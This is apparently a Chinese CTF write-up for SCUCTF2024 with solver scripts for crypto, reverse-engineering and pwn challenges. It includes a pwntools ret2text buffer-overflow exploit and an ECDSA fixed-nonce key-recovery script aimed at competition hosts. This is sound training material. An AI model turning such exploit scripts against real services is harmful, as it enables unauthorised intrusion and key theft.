

# SCUCTF2024

打到第三，虽然和第二差一点点，但已经很满意了，逆向差一道oi算法和一个boss题就能ak了


## Misc

### SCU-OSINT

1. https://www.sohu.com/a/548287342_115785：4.472628,51.924605
2. 美国芝加哥华人街：-87.634745,41.850942

4. 于二嫂恩施土家菜：114.264492,30.537959
5. 美国日本城：-122.429383,37.785414
6. 合肥城隍庙：117.285432,31.870445
7. 成都兰桂坊：104.092491,30.650736
8. 后海/什刹海：116.39456,39.946763
9. 青岛金帝山庄：120.445806,36.081706

### CTF一把梭？

导出对象即可

## Crypto

### Funny

~~~python
from Crypto.Util.number import long_to_bytes, bytes_to_long
from gmpy2 import gcd, invert, iroot

n = (44763444859879884038708658157008071880193344021551817387637745646314918339097045709994070424282107069715320569002772481919510646881596998094820773585351446686773947691955953853080332090535293214509733516261956478846204995740314555061149760847579734281394837479231038061498909195978778319116247773847103941535002072810562456449510361013529041463649306865813540918989501574478338995331113256493656141606708985410790426190958080972964284821663546051159974442013349466348868665365554757942129730848231929177240461721610495864022353897821521000498197455840419046869625025867297390870700359575928362411304198406562760301775578261436870821464216607554428437454146143979543436426533991556100659579987696593675091495042256176364675835021975637786279647637390302897317143393283841691008109978628103890163229468157845393583463465476351193506396823483251415221884952122736937783458347186979788716669539126989667368466070307821665482034597718884079590052885746185215558146479388778532643628478292807033377728626986 + 0x401) // 2581942792046579713395674014031211416173666863245901819258268603261755307243320667442197467723761019147008091786796111430664620522079713416215205447517403606615578802785520575916277968997248407919640482821112495366403204438080109398559116192012622524041467314942629801675105262865770389436746211454630897001963684781627802184497065030574782227270688908311334935704323921711566369173579
print(n)
def extendedEuclid(a, b):
    if b == 0:
        return 1, 0
    else:
        x, y = extendedEuclid(b, a % b)
        x, y = y, (x - (a // b) * y)
        return x, y

for i in range(-0x401, 0x401+1):
    k = i + 17337117227294603081644913925715986304757691186817314168716070675168728237679560788649529089548008347749038616949165538274455486179917458595151081640403539751423616759911713840638803490704488888721766198501634924947022411482611118431514836628403198910259213109382128421336826918304936929700914718767612296481855186054998920368855241548606650200550250310760914787293267642488292723273789390824832638679706543869841856637405754914855770290337227026645086808969790740018490395742739684465737948586702801081011607546494377177946129929765696444973369402105823853124703107856231998873101691105985504867357684501470651676994
    d = extendedEuclid(65537, k+1)[0]
    hint = pow(3208444748775539679899380105832032233046107978893625201975742354386860817426404645710580786436813251982166398072123607126977075577443383253105784221005811832541925472428712962137721775112788798165406344192849479715687308430038258994227891625783250837464249165684689659268781499736581159743935510110138755706049390867510171680853806801742557749628401098886471260368642083089738695645932070375224567225560860488495595243411181755476610570353182439447822323563265416597218638205622062808123779413183491848361433630614746423079089799312966780304142986457944759368616398610715556048774076274844317753805775880116020089014, d, n)
    if 2581942792046579713395674014031211416173666863245901819258268603261755307243320667442197467723761019147008091786796111430664620522079713416215205447517403606615578802785520575916277968997248407919640482821112495366403204438080109398559116192012622524041467314942629801675105262865770389436746211454630897001963684781627802184497065030574782227270688908311334935704323921711566369173579 % hint == 0:
        print(i, long_to_bytes(2581942792046579713395674014031211416173666863245901819258268603261755307243320667442197467723761019147008091786796111430664620522079713416215205447517403606615578802785520575916277968997248407919640482821112495366403204438080109398559116192012622524041467314942629801675105262865770389436746211454630897001963684781627802184497065030574782227270688908311334935704323921711566369173579//hint))
    try:
        print(long_to_bytes(hint).decode())
        print(long_to_bytes(
            2581942792046579713395674014031211416173666863245901819258268603261755307243320667442197467723761019147008091786796111430664620522079713416215205447517403606615578802785520575916277968997248407919640482821112495366403204438080109398559116192012622524041467314942629801675105262865770389436746211454630897001963684781627802184497065030574782227270688908311334935704323921711566369173579 // hint))
    except:
        continue
    try:
        m = long_to_bytes(
            2581942792046579713395674014031211416173666863245901819258268603261755307243320667442197467723761019147008091786796111430664620522079713416215205447517403606615578802785520575916277968997248407919640482821112495366403204438080109398559116192012622524041467314942629801675105262865770389436746211454630897001963684781627802184497065030574782227270688908311334935704323921711566369173579 // hint).decode()
        if len(m) > 1:
            print(m)
    except:
        continue
    if b"scuctf" in long_to_bytes(2581942792046579713395674014031211416173666863245901819258268603261755307243320667442197467723761019147008091786796111430664620522079713416215205447517403606615578802785520575916277968997248407919640482821112495366403204438080109398559116192012622524041467314942629801675105262865770389436746211454630897001963684781627802184497065030574782227270688908311334935704323921711566369173579//hint):
        print(n)
        print(long_to_bytes(2581942792046579713395674014031211416173666863245901819258268603261755307243320667442197467723761019147008091786796111430664620522079713416215205447517403606615578802785520575916277968997248407919640482821112495366403204438080109398559116192012622524041467314942629801675105262865770389436746211454630897001963684781627802184497065030574782227270688908311334935704323921711566369173579//hint))
    break
print(long_to_bytes(2581942792046579713395674014031211416173666863245901819258268603261755307243320667442197467723761019147008091786796111430664620522079713416215205447517403606615578802785520575916277968997248407919640482821112495366403204438080109398559116192012622524041467314942629801675105262865770389436746211454630897001963684781627802184497065030574782227270688908311334935704323921711566369173579//bytes_to_long(b"fake:scuctf{777244834953575180597136747909171714123072108442216566907495718016920431857250692477}")))
print(bytes.fromhex(hex(777244834953575180597136747909171714123072108442216566907495718016920431857250692477)[2:]))
~~~

### sign

~~~python
flag_squared = 634224651564898754539998157442756001083664116199826003787455223670065793192082549055454281560984604909069350043903900173786578435523771936648969  # 替换为实际的 `flag**2` 值
flag = iroot(flag_squared, 2)[0]  # 取平方根
print(long_to_bytes(flag))
~~~

### 古典密码

`你害怕吃日本的海鲜吗, 哎，怕的是水污染哦。`

首字母apdsswro，对应password，换成数字即可

### showtime

利用`sig: Signature = self.privkey.sign(bytes_to_long(hsh), randrange(100, 100+n))`，这里控制n为1则可保证生成随机数固定为100

~~~python
from pwn import *
from datetime import datetime
from ecdsa.ecdsa import Public_key, Private_key, Signature, generator_192
from Crypto.Util.number import bytes_to_long, long_to_bytes, inverse
import json

g = generator_192
n = g.order()

io = remote('223.129.86.2', 33886)
io.recvuntil(b"Enter your option: ")
def send_payload(time):
    while True:
        now = datetime.now()
        if now.strftime("%S") == time:
            io.sendline(b"sign_time")
            return json.loads(io.recvline().decode().replace("\n", "").replace("'", "\""))
        sleep(1)

def sha1(data):
    sha1_hash = hashlib.sha1()
    sha1_hash.update(data)
    return sha1_hash.digest()

# Send first payload, time we want is 02
signature_1 = send_payload("01")
print(signature_1)
msg_1 = bytes_to_long(sha1(signature_1['time'].encode()))

temp = Signature(int(signature_1['r'], 16), int(signature_1['s'], 16))
r = int(signature_1['r'], 16)
s = int(signature_1['s'], 16)
# There are two possible public keys from the signature observed
public_key_1, public_key_2 = temp.recover_public_keys(msg_1, g)
print(public_key_1, public_key_2)

inv = inverse(r, n)
secret = ((s * 100 - msg_1) * inv) % n
print(secret)
io.recvuntil(b'Enter your option: ')
io.sendline(b'I kown the secret')
print(io.recv())
io.sendline(hex(secret).encode())
print(io.recv())

~~~

## Pwn

### ret2text

利用栈溢出覆盖返回地址

~~~python
from pwn import *

r = remote("223.129.86.2", port=33848)
r.recvuntil(b"Do you like pwntools?\n")
r.send(p64(0xdeadbeaf))
# print(r.recv())
# r.recvuntil(b"Got 0xdeadbeaf.\n")
r.send(b"a"*40+p64(0x401197))
r.interactive()

~~~

## Reverse

### BabyApk

rc4解密即可

~~~python
def KSA(key):
    """ Key-Scheduling Algorithm (KSA) 密钥调度算法"""
    S = list(range(256))
    j = 0
    for i in range(256):
        j = (j + S[i] + key[i % len(key)]) % 256
        S[i], S[j] = S[j], S[i]
    return S


def PRGA(S):
    """ Pseudo-Random Generation Algorithm (PRGA) 伪随机数生成算法"""
    i, j = 0, 0
    while True:
        i = (i + 1) % 256
        j = (j + S[i]) % 256
        S[i], S[j] = S[j], S[i]
        K = S[(S[i] + S[j]) % 256]
        yield K


def RC4(key, text):
    """ RC4 encryption/decryption """
    S = KSA(key)
    keystream = PRGA(S)
    res = []
    for char in text:
        res.append(char ^ next(keystream))
    return bytes(res)


if __name__ == "__main__":
    key = b"987654321"
    text = [0xEC, 200, 0xAC, 220, 0x6F, 0x86, 57, 11, 0x97, 230, 0xDD, 180, 7, 230, 75, 0x98, 0xB2, 0x76, 70, 0xBA, 0x8E, 0x1F, 10]
    print(len(text))
    print(RC4(key, text))
    print(RC4(key, text).decode())

~~~

### BossApk

flutter逆向，照着网上教程用blutter生成符号表导入ida还原函数名即可，然后定位magic函数可以看到很多数据（只有这个函数有关键数据，长度44）

向下找44发现了遍历字符串的位置


分析可知做的操作就是右移一位，正好是上面数据全部右移1位得到的结果再base58解密得到flag

### ChildApk

简单的异或得到base64魔改解密

~~~python
cmp = [0x00000010, 0x00000013, 0x00000012, 0x00000015, 0x00000014, 0x00000017, 0x00000016, 0x00000019, 0x00000018, 0x0000001B, 0x0000001A, 0x0000001D, 0x0000001C, 0x00000041, 0x00000040, 0x00000043, 0x00000042, 0x00000045, 0x0000001F, 0x0000001E, 0x00000001, 0x00000000, 0x00000003, 0x00000002, 0x00000005, 0x00000004, 0x00000007, 0x00000006, 0x00000009, 0x00000008, 0x0000000B, 0x00000030, 0x00000033, 0x00000032, 0x00000035, 0x00000034, 0x00000037, 0x00000036, 0x00000039, 0x00000038, 0x0000003B, 0x0000003A, 0x0000003D, 0x0000003C, 0x00000044, 0x00000047, 0x00000046, 0x00000049, 0x00000048, 0x0000003F, 0x0000003E, 0x00000021, 0x00000020, 0x00000023, 0x00000022, 0x00000025, 0x00000024, 0x00000027, 0x00000026, 0x00000029, 0x00000028, 0x0000002B, 0x0000005A, 0x0000005E]
flag = ""
for i in range(len(cmp)):
    flag += chr(cmp[i]^0x71)
print(flag)
print("".join(map(chr, [0x00000070, 0x00000051, 0x00000030, 0x00000071, 0x00000033, 0x00000052, 0x00000034, 0x00000067, 0x0000007A, 0x00000051, 0x00000055, 0x00000051, 0x00000079, 0x00000064, 0x00000066, 0x00000053, 0x00000075, 0x00000071, 0x00000059, 0x0000004E, 0x00000078, 0x00000052, 0x00000059, 0x00000051, 0x00000077, 0x00000068, 0x00000078, 0x00000051, 0x0000007A, 0x00000073, 0x00000030, 0x00000041, 0x00000030, 0x00000068, 0x00000078, 0x00000050, 0x00000078, 0x00000050, 0x00000062, 0x00000036, 0x0000006D, 0x00000054, 0x00000051, 0x0000003D])))
~~~

### FLOWER

先是假的flag，再去找数据发现很长一串调用代码，里面大量花指令（通过call改变ebp，多次把call中间一大部分nop即可），得到的是tea魔改加密

~~~c
unsigned int sub_4012A0()
{
  unsigned int result; // eax
  _BYTE *v1; // [esp+8h] [ebp-58h]
  _BYTE *v2; // [esp+18h] [ebp-48h]
  unsigned int *v3; // [esp+18h] [ebp-48h]
  int v4; // [esp+20h] [ebp-40h]
  int v5; // [esp+20h] [ebp-40h]
  unsigned int v6; // [esp+24h] [ebp-3Ch]
  unsigned int v7; // [esp+24h] [ebp-3Ch]
  unsigned int v8; // [esp+28h] [ebp-38h]
  unsigned int v9; // [esp+28h] [ebp-38h]
  unsigned int i; // [esp+2Ch] [ebp-34h]
  unsigned int j; // [esp+2Ch] [ebp-34h]
  unsigned int k; // [esp+2Ch] [ebp-34h]
  unsigned int m; // [esp+2Ch] [ebp-34h]
  char v14; // [esp+32h] [ebp-2Eh]
  char v15; // [esp+33h] [ebp-2Dh]
  char Format[27]; // [esp+34h] [ebp-2Ch] BYREF
  char v17[10]; // [esp+4Fh] [ebp-11h] BYREF

  v14 = 0;
  v2 = (_BYTE *)sub_401230(0x10u);
  sub_401250();
  do
  {
    v15 = sub_401250();
    if ( !v15 )
      break;
    if ( v15 == 10 )
      break;
    if ( v15 == 32 )
      break;
    *v2++ = v15;
    ++v14;
  }
  while ( v14 != 16 );
  v3 = (unsigned int *)&v2[-v14];
  v1 = (_BYTE *)sub_401230(0x11u);
  sub_401260(v1, v3, 0x10u);
  v1[16] = 0;
  v8 = *v3;
  v6 = v3[1];
  v4 = 539166227;
  for ( i = 0; i < 0x20; ++i )
  {
    v4 += 0x20020608;
    v8 += (v6 >> 5) ^ (v4 + v6) ^ (16 * v6 + 7);
    v6 += (v8 >> 5) ^ (v4 + v8) ^ (16 * v8 + 119);
  }
  *v3 = v8;
  v3[1] = v6;
  v9 = v3[2];
  v7 = v3[3];
  v5 = 539166227;
  for ( j = 0; j < 0x20; ++j )
  {
    v5 += 537003528;
    v9 += (v7 >> 5) ^ (v5 + v7) ^ (16 * v7 + 7);
    v7 += (v9 >> 5) ^ (v5 + v9) ^ (16 * v9 + 119);
  }
  v3[2] = v9;
  v3[3] = v7;
  for ( k = 0; k < 0x10; ++k )
  {
    result = k;
    if ( *((unsigned __int8 *)v3 + k) != (unsigned __int8)byte_404210[k] )
      return result;
  }
  qmemcpy(Format, "[QW", 3);
  Format[3] = 2;
  Format[4] = 72;
  Format[5] = 75;
  Format[6] = 80;
  Format[7] = 70;
  Format[8] = 2;
  Format[9] = 79;
  Format[10] = 91;
  Format[11] = 2;
  Format[12] = 74;
  Format[13] = 75;
  Format[14] = 70;
  Format[15] = 71;
  Format[16] = 2;
  Format[17] = 72;
  Format[18] = 78;
  Format[19] = 81;
  Format[20] = 89;
  Format[21] = 71;
  Format[22] = 84;
  Format[23] = 64;
  Format[24] = 64;
  Format[25] = 2;
  Format[26] = 28;
  qmemcpy(v17, "5%7%6(]\aU_", sizeof(v17));
  for ( m = 0; m < 0x25; ++m )
    Format[m] += 30;
  return sub_401280(Format, (char)v1);
}
~~~

解密如下

~~~python
# a = [0xc2, 0x44, 0x28, 0x86, 0x4E, 0x9D, 0xF4, 0xE4, 0x29, 0x9F, 0x3B, 0x25, 0x71, 0xD7, 0xF6, 0xF9, 0x2D, 0xBE, 0xD4, 0x2E, 0xE1, 0xF9, 0x90, 0xF7, 0x33, 0xD3, 0xF9, 0xB0, 0xC6]

# b = [0x44, 0x28, 0x86, 0x4E, 0x9D, 0xF4, 0xE4, 0x29, 0x9F, 0x3B, 0x25, 0x71, 0xD7, 0xF6, 0xF9, 0x2D, 0xBE, 0xD4, 0x2E, 0xE1, 0xF9, 0x90, 0xF7, 0x33, 0xD3, 0xF9, 0xB0, 0xC6]
# for i in range(27, -1, -1):
#     if i:
#         b[i] ^= a[i]
# v11 = 0x9c
# v14 = 0x8B
# v15 = 0
# for i in range(28):
#     v15 += v11
#     v15 &= 0xff
#     v14 ^= v15
#     b[i] ^= v14
# print("".join(map(chr, b)))

data = [0x5b, 0x51, 0x57, 0x2, 0x48, 0x4b, 0x50, 0x46, 0x2, 0x4f, 0x5b, 0x2, 0x4a, 0x4b, 0x46, 0x47, 0x2, 0x48, 0x4e, 0x51, 0x59, 0x47, 0x54, 0x40, 0x40, 0x2, 0x1c, 0x35, 0x25, 0x37, 0x25, 0x36, 0x28, 0x5d, 0x7, 0x55, 0x5f]
flag = ""
for i in range(len(data)):
    flag += chr(data[i]+30)
print(flag)

v = [0x8F3991F4, 0x9AD3E344, 0x25FBE6B3, 0xC284B3CF]

import struct
from ctypes import c_uint32

def tea_decrypt(r, v, key, delta):
    v0, v1 = c_uint32(v[0]), c_uint32(v[1])
    total = c_uint32(0x20230613+delta * r)
    for i in range(r):
        v1.value -= ((v0.value << 4) + key[2]) ^ (v0.value + total.value) ^ ((v0.value >> 5) + key[3])
        v0.value -= ((v1.value << 4) + key[0]) ^ (v1.value + total.value) ^ ((v1.value >> 5) + key[1])
        total.value -= delta
    return v0.value, v1.value

k = [7, 0, 119, 0]
delta = 0x20020608
for i in range(0, len(v), 2):
    v[i:i+2] = tea_decrypt(32, v[i:i+2], k, delta)
str_list = []
for i in range(len(v)):
    str_list.append(struct.pack('<I', v[i]).decode())
print('decrypted: %s' % ''.join(str_list))

~~~

### TeenApk

鸿蒙逆向，直接解压找到abc用abc-decompiler反编译，得到的是sm4魔改加密（照着敲完才发现），解密如下

魔改的点在密钥扩展算法的合成变换里少异或了个ck


~~~python
S_BOX = [0xD6, 0x90, 0xE9, 0xFE, 0xCC, 0xE1, 0x3D, 0xB7, 0x16, 0xB6, 0x14, 0xC2, 0x28, 0xFB, 0x2C, 0x05,
         0x2B, 0x67, 0x9A, 0x76, 0x2A, 0xBE, 0x04, 0xC3, 0xAA, 0x44, 0x13, 0x26, 0x49, 0x86, 0x06, 0x99,
         0x9C, 0x42, 0x50, 0xF4, 0x91, 0xEF, 0x98, 0x7A, 0x33, 0x54, 0x0B, 0x43, 0xED, 0xCF, 0xAC, 0x62,
         0xE4, 0xB3, 0x1C, 0xA9, 0xC9, 0x08, 0xE8, 0x95, 0x80, 0xDF, 0x94, 0xFA, 0x75, 0x8F, 0x3F, 0xA6,
         0x47, 0x07, 0xA7, 0xFC, 0xF3, 0x73, 0x17, 0xBA, 0x83, 0x59, 0x3C, 0x19, 0xE6, 0x85, 0x4F, 0xA8,
         0x68, 0x6B, 0x81, 0xB2, 0x71, 0x64, 0xDA, 0x8B, 0xF8, 0xEB, 0x0F, 0x4B, 0x70, 0x56, 0x9D, 0x35,
         0x1E, 0x24, 0x0E, 0x5E, 0x63, 0x58, 0xD1, 0xA2, 0x25, 0x22, 0x7C, 0x3B, 0x01, 0x21, 0x78, 0x87,
         0xD4, 0x00, 0x46, 0x57, 0x9F, 0xD3, 0x27, 0x52, 0x4C, 0x36, 0x02, 0xE7, 0xA0, 0xC4, 0xC8, 0x9E,
         0xEA, 0xBF, 0x8A, 0xD2, 0x40, 0xC7, 0x38, 0xB5, 0xA3, 0xF7, 0xF2, 0xCE, 0xF9, 0x61, 0x15, 0xA1,
         0xE0, 0xAE, 0x5D, 0xA4, 0x9B, 0x34, 0x1A, 0x55, 0xAD, 0x93, 0x32, 0x30, 0xF5, 0x8C, 0xB1, 0xE3,
         0x1D, 0xF6, 0xE2, 0x2E, 0x82, 0x66, 0xCA, 0x60, 0xC0, 0x29, 0x23, 0xAB, 0x0D, 0x53, 0x4E, 0x6F,
         0xD5, 0xDB, 0x37, 0x45, 0xDE, 0xFD, 0x8E, 0x2F, 0x03, 0xFF, 0x6A, 0x72, 0x6D, 0x6C, 0x5B, 0x51,
         0x8D, 0x1B, 0xAF, 0x92, 0xBB, 0xDD, 0xBC, 0x7F, 0x11, 0xD9, 0x5C, 0x41, 0x1F, 0x10, 0x5A, 0xD8,
         0x0A, 0xC1, 0x31, 0x88, 0xA5, 0xCD, 0x7B, 0xBD, 0x2D, 0x74, 0xD0, 0x12, 0xB8, 0xE5, 0xB4, 0xB0,
         0x89, 0x69, 0x97, 0x4A, 0x0C, 0x96, 0x77, 0x7E, 0x65, 0xB9, 0xF1, 0x09, 0xC5, 0x6E, 0xC6, 0x84,
         0x18, 0xF0, 0x7D, 0xEC, 0x3A, 0xDC, 0x4D, 0x20, 0x79, 0xEE, 0x5F, 0x3E, 0xD7, 0xCB, 0x39, 0x48
         ]

FK = [0xa3b1bac6, 0x56aa3350, 0x677d9197, 0xb27022dc]
CK = [
    0x00070e15, 0x1c232a31, 0x383f464d, 0x545b6269,
    0x70777e85, 0x8c939aa1, 0xa8afb6bd, 0xc4cbd2d9,
    0xe0e7eef5, 0xfc030a11, 0x181f262d, 0x343b4249,
    0x50575e65, 0x6c737a81, 0x888f969d, 0xa4abb2b9,
    0xc0c7ced5, 0xdce3eaf1, 0xf8ff060d, 0x141b2229,
    0x30373e45, 0x4c535a61, 0x686f767d, 0x848b9299,
    0xa0a7aeb5, 0xbcc3cad1, 0xd8dfe6ed, 0xf4fb0209,
    0x10171e25, 0x2c333a41, 0x484f565d, 0x646b7279
]


def wd_to_byte(wd, bys):
    bys.extend([(wd >> i) & 0xff for i in range(24, -1, -8)])


def bys_to_wd(bys):
    ret = 0
    for i in range(4):
        bits = 24 - i * 8
        ret |= (bys[i] << bits)
    return ret


def s_box(wd):
    """
    进行非线性变换，查S盒
    :param wd: 输入一个32bits字
    :return: 返回一个32bits字   ->int
    """
    ret = []
    for i in range(0, 4):
        byte = (wd >> (24 - i * 8)) & 0xff
        row = byte >> 4
        col = byte & 0x0f
        index = (row * 16 + col)
        ret.append(S_BOX[index])
    return bys_to_wd(ret)


def rotate_left(wd, bit):
    """
    :param wd: 待移位的字
    :param bit: 循环左移位数
    :return:
    """
    return (wd << bit & 0xffffffff) | (wd >> (32 - bit))


def Linear_transformation(wd):
    """
    进行线性变换L
    :param wd: 32bits输入
    """
    return wd ^ rotate_left(wd, 2) ^ rotate_left(wd, 10) ^ rotate_left(wd, 18) ^ rotate_left(wd, 24)


def Tx(k1, k2, k3, ck):
    """
    密钥扩展算法的合成变换
    """
    xor = k1 ^ k2 ^ k3 ^ ck
    t = s_box(k1 ^ k2 ^ k3)
    return t ^ rotate_left(t, 13) ^ rotate_left(t, 23)


def T(x1, x2, x3, rk):
    """
    加密算法轮函数的合成变换
    """
    t = x1 ^ x2 ^ x3 ^ rk
    t = s_box(t)
    return t ^ rotate_left(t, 2) ^ rotate_left(t, 10) ^ rotate_left(t, 18) ^ rotate_left(t, 24)


def key_extend(main_key):
    MK = [(main_key >> (128 - (i + 1) * 32)) & 0xffffffff for i in range(4)]
    # 将128bits分为4个字
    keys = [MK[i] for i in range(4)]
    # 生成K0~K3
    RK = []
    for i in range(32):
        t = Tx(keys[i + 1], keys[i + 2], keys[i + 3], CK[i])
        k = keys[i] ^ t
        keys.append(k)
        RK.append(k)
    return RK


def R(x0, x1, x2, x3):
    # 使用位运算符将数值限制在32位范围内
    x0 &= 0xffffffff
    x1 &= 0xffffffff
    x2 &= 0xffffffff
    x3 &= 0xffffffff
    s = f"{x3:08x}{x2:08x}{x1:08x}{x0:08x}"
    return s


def encode(plaintext, rk):
    X = [plaintext >> (128 - (i + 1) * 32) & 0xffffffff for i in range(4)]
    for i in range(32):
        t = T(X[1], X[2], X[3], rk[i])
        c = (t ^ X[0])
        X = X[1:] + [c]
    ciphertext = R(X[0], X[1], X[2], X[3])
    # 进行反序处理
    return ciphertext


def decode(ciphertext, rk):
    ciphertext = int(ciphertext, 16)
    X = [ciphertext >> (128 - (i + 1) * 32) & 0xffffffff for i in range(4)]
    for i in range(32):
        t = T(X[1], X[2], X[3], rk[31 - i])
        c = (t ^ X[0])
        X = X[1:] + [c]
    m = R(X[0], X[1], X[2], X[3])
    return m


def output(s, name):
    out = ""
    for i in range(0, len(s), 2):
        out += s[i:i + 2] + " "
    print(f"{name}:", end="")
    print(out.strip())


if __name__ == '__main__':
    cmp = [214, 144, 233, 254, 204, 225, 61, 183, 22, 182, 20, 194, 40, 251, 44, 5, 43, 103, 154, 118, 42, 190, 4, 195,
           170, 68, 19, 38, 73, 134, 6, 153, 156, 66, 80, 244, 145, 239, 152, 122, 51, 84, 11, 67, 237, 207, 172, 98,
           228, 179, 28, 169, 201, 8, 232, 149, 128, 223, 148, 250, 117, 143, 63, 166, 71, 7, 167, 252, 243, 115, 23,
           186, 131, 89, 60, 25, 230, 133, 79, 168, 104, 107, 129, 178, 113, 100, 218, 139, 248, 235, 15, 75, 112, 86,
           157, 53, 30, 36, 14, 94, 99, 88, 209, 162, 37, 34, 124, 59, 1, 33, 120, 135, 212, 0, 70, 87, 159, 211, 39,
           82, 76, 54, 2, 231, 160, 196, 200, 158, 234, 191, 138, 210, 64, 199, 56, 181, 163, 247, 242, 206, 249, 97,
           21, 161, 224, 174, 93, 164, 155, 52, 26, 85, 173, 147, 50, 48, 245, 140, 177, 227, 29, 246, 226, 46, 130,
           102, 202, 96, 192, 41, 35, 171, 13, 83, 78, 111, 213, 219, 55, 69, 222, 253, 142, 47, 3, 255, 106, 114, 109,
           108, 91, 81, 141, 27, 175, 146, 187, 221, 188, 127, 17, 217, 92, 65, 31, 16, 90, 216, 10, 193, 49, 136, 165,
           205, 123, 189, 45, 116, 208, 18, 184, 229, 180, 176, 137, 105, 151, 74, 12, 150, 119, 126, 101, 185, 241, 9,
           197, 110, 198, 132, 24, 240, 125, 236, 58, 220, 77, 32, 121, 238, 95, 62, 215, 203, 57, 72, 85, 208, 152,
           146, 101, 178, 190, 37, 195, 193, 121, 4, 181, 209, 153, 206]
    
    main_key = 0xd690e9fecce13db716b614c228fb2c05
    rk = key_extend(main_key)
    m = decode("640aad5d58375bef921b36ccfdc1935a", rk)
    print("SCUCTF{"+bytes.fromhex(m).decode()+"}")

~~~

### cos90

考察ecdh，动态调试可知ecdh的随机生成公钥私钥（随机的，每次不一样），公钥放在加密文件最后，私钥由另一个文件给出。然后两者通过密码学里的x25519生成了aes密钥

私钥要完成小猿口算，最开始题目有错在windows上跑的随机数

首先upx脱壳，发现要完成99999次正确比大小，模拟下即可

~~~python
out = [0x8B, 0xD0, 0x36, 0x85, 0xA5, 0x05, 0xB8, 0x6B, 0xC0, 0x23, 0xF9, 0xEA, 0x69, 0xEA, 0x56, 0x88, 0x03, 0xD6, 0x87, 0xC6, 0x1A, 0x00, 0x78, 0x9F, 0xC5, 0x1B, 0xE1, 0x7B, 0xD0, 0x9F, 0x40, 0xE9]
print(len(out))
key = []
with open("num.txt") as f:
    nums = f.read()
nums = nums.split(", ")
nums = list(map(int, nums[4:-1]))
k = 0
i = 0
while k <= 99999:
    print(nums[2*i], nums[2*i+1])
    if nums[2*i] > nums[2*i+1]:
        out[k%32] += 5
        k += 1
    elif nums[2*i] < nums[2*i+1]:
        out[k%32] -= 3
        k += 1
    i += 1

for i in range(len(out)):
    key.append(out[i]&0xff)
print(key)
print(bytes(key).hex())
~~~

生成aes密钥

~~~python
from binascii import unhexlify
print(bytes().hex())
private_key_bytes = unhexlify("bcf157aedeb6412c31540a8bf243e719ec1f2867fb99a1e07ea45ad43918a90a")
public_key_bytes = unhexlify("a12768bb262522d74c16f5f45f26a943ea710ea65e2fb6bd58d2e9e6974f9262")

from cryptography.hazmat.primitives.asymmetric import x25519

# 生成私钥对象
private_key = x25519.X25519PrivateKey.from_private_bytes(private_key_bytes)

# 生成公钥对象
public_key = x25519.X25519PublicKey.from_public_bytes(public_key_bytes)  # 去掉前缀 0x04
# 计算共享密钥
shared_secret = private_key.exchange(public_key)
print("Shared Secret:", shared_secret.hex())
~~~


### mygo

爆破，输入正确的flag开头会报错，但是输错就会打印wrong

~~~python
from pwn import *

def brute_force_flag():
    flag = ""  # 已找到的 flag
    possible_chars = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_{}"
    max_length = 33 
    program_path = "./vm_final"  # vm_final 的路径

    for i in range(max_length):
        char_found = False
        for c in possible_chars:
            test_flag = flag + c

            # 使用 pwntools 连接 vm_final
            try:
                p = process(program_path)
                
                # 等待提示
                p.recvuntil(b"input your flag and i will check it:\n")
                
                # 发送尝试的 flag
                p.sendline(test_flag)
                
                # 接收程序输出
                output = p.recvall(timeout=1).decode(errors="ignore")
                p.close()

                # 判断输出结果
                if "panic: runtime error: index out of range" in output:
                    flag += c
                    print(f"Character found: {c}, Current flag: {flag}")
                    char_found = True
                    break
            except EOFError:
                print(f"Error while processing input: {test_flag}")
            finally:
                p.close()

        if not char_found:
            print("Flag completed!")
            break

    return flag

if __name__ == "__main__":
    flag = brute_force_flag()
    print(f"The cracked flag is: {flag}")

~~~

### 普通蟒蛇

直接忽略长度的检查进行爆破

~~~python
import check

# input_flag=input('Please input your flag: ').strip()
flag = ""
for j in range(17):
    for i in range(32, 127):
        if check.check(flag+chr(i)):
            flag += chr(i)
            break
print(flag)
~~~

官方解法：AList替换List类，因为是对list的处理，会调用里面的函数

### 白给蟒蛇

pyexinstaller提取得到pyc再uncompyle6得到源码

~~~python
# uncompyle6 version 3.9.2
# Python bytecode version base 3.8.0 (3413)
# Decompiled from: Python 3.8.19 | packaged by conda-forge | (default, Mar 20 2024, 12:38:07) [MSC v.1929 64 bit (AMD64)]
# Embedded file name: main.py
flag = [
 18, 19, 42, 84, 75, 113, 53, 42, 60, 98, 109, 126, 73, 42, 21, 44, 
 82, 54, 84, 32, 140, 48, 101, 218, 92, 83, 210, 55, 51, 160, 148, 
 129, 253]
input_str = input("input your str:")
if len(input_str) != 33:
    print("Oh your input is wrong!!!")
result = [ord(i) for i in list(input_str)]
for i in range(33):
    result[i] ^= result[(i - 3 + 33) % 33]
    result[i] += i
else:
    for i, j in zip(result, flag):
        if i != j:
            print("Oh your input is wrong!!!")
            exit(0)
    else:
        print("you get the flag! it's: ", input_str)

# okay decompiling .\main.pyc

~~~

解密即可

~~~python
cmp = [
 18, 19, 42, 84, 75, 113, 53, 42, 60, 98, 109, 126, 73, 42, 21, 44,
